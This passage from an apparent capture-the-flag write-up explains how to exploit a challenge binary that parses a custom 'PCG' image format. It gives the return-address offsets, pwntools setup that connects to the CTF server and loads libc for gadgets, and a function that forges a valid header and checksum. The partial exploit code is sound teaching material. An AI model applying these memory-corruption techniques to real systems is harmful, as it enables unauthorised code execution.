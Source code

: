 The functions were assembled conveniently so the offsets are relatively small and simple ex. we don't have to underflow the return address to jump to previous instructions. Incrementing it is enough.

The address of the first instruction here (at `0x0x0000555555555892`) is the usual value of the return address when we return from the `print_image_used_colors` function. The `call puts` instruction lays `0x7e` bytes later at `0x0000555555555910` and the prologue of the `image_change_title` function `0x86` bytes later at `0x0000555555555918`. That's all the offsets we need.

### Setup and variables
```python
from pwn import *

offset_to_return_addr = 28

offset_from_mov_to_puts = 0x7e
offset_from_mov_to_img_change_title = 0x86

context.binary = bi = ELF('./pcg')
libc = ELF('./libc.so.6')

r = remote('pcg.ctf.knping.pl', 30001)
```

- `offset_to_return_addr` is the index into the colors array that gives us control of the last word of the return address. Its value (28) was discussed [here](#the-first-vulnerability)

The next two offsets were discussed [in the previous section](#where-to-jump)

Then I'm setting the `context.binary` variable to the program's executable so pwntools know the correct architecture, endianness and so on.

On the next line I'm binding the `libc` library to a variable because later I'm gonna use gadgets contained there and also leak the base address.

Finally I'm setting up the remote socket where the program is hosted.

### wrap_in_pcg
If you remember, in order to have the program go to the `print_image_used_colors` function where the first vulnerability is located we have to pass the [`check_image`](#check_image) check first. Here is a python function that takes in bytes we want to use as the image's data and wraps them in a working PCG_HEADER:
```python
def wrap_in_pcg(buf: bytes):
    payload = b'\0\0\0' + packing.p16(len(buf)) + buf # add header parts: { width: 0, height: 0, titleLength: 0, dataLength: len(buf) }
    chksum = 0xff474350
    div = 0
    for b in payload:
        chksum ^= b << ((div % 4) * 8)  
        div += 1
    return b'PCG\xFF' + packing.p32(chksum) + payload # add header parts: { magic: 'PCG\xFF', checksum: chksum } to complete the header
```
